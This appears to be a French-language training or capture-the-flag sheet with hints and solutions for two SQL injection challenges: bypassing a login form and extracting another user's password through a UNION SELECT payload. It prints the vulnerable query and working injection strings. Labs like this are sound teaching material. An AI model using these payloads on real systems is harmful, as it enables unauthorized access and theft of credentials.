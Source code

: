 # Injection SQL 1 - Passer le login

mettre " pour avoir une erreur


* Solution:
    Mettre en username : " OR 1=1 OR ""="

Mais on est login en tant que "admin", pas l'autre user !

* Indice 1 :
    Injection SQL

* Indice 2 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"

# Injection SQL 2 - Récupérer le mot de passe de l'autre utilisateur

* Indice 1 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"
    (dur sans connaître le nom de la base !)

SELECT * FROM data.users WHERE username = "a" AND password="" UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin"

* Solution :
    Mettre en user : (n'importe quoi)
    Mettre en mdp : " UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin

